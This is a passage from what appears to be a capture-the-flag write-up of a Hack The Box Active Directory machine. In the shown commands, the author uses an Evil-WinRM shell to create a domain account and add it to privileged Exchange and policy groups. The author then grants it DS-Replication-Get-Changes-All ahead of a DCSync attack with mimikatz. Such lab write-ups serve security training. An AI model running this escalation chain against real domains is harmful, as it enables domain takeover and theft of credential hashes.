 {% highlight shell %}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-NetUser -UserName TEST3 -Password Password123 -GroupName "Domain Users" -Domain 'htb.local'
[*] User TEST3 successfully created in domain htb.local
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-NetGroupUser -UserName TEST3 -GroupName "Service Accounts" -Domain forest.htb.local
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-NetGroupUser -UserName TEST3 -GroupName "EXCHANGE WINDOWS PERMISSIONS" -Domain htb.local
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-NetGroupUser -UserName TEST3 -GroupName "GROUP POLICY CREATOR OWNERS" -Domain htb.local
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-NetGroupUser -UserName TEST3 -GroupName "ORGANIZATION MANAGEMENT" -Domain htb.local
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-NetGroupUser -UserName TEST3 -GroupName "EXCHANGE TRUSTED SUBSYSTEM" -Domain htb.local
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user TEST3 /domain
User name                    TEST3
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/22/2019 8:51:39 PM
Password expires             12/3/2019 8:51:39 PM
Password changeable          10/23/2019 8:51:39 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Exchange Windows Perm*Organization Manageme
                             *Domain Users         *Group Policy Creator 
                             *Exchange Trusted Subs
{% endhighlight %}

<p>With our user created and in the right group, we still had one last step to prepare before we could execute the dcsync exploit. The theory behind the approach can be seen <a href="https://adsecurity.org/?p=1729">this article</a> and elaborates that we should need <i>DS-Replication-Get-Changes-All</i>. Let's add that to our new TEST3 user.</p>

{% highlight shell %}
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
Add-ADPermission "DC=htb,DC=local" -User $id.Name -ExtendedRights Ds-Replication-Get-Changes-All
{% endhighlight %}

<p>A quick relog to apply the changes and now we should be ready to kick off the dcsync. Despite many options available I ended up loading mimikatz to the host to run the attack locally.</p>
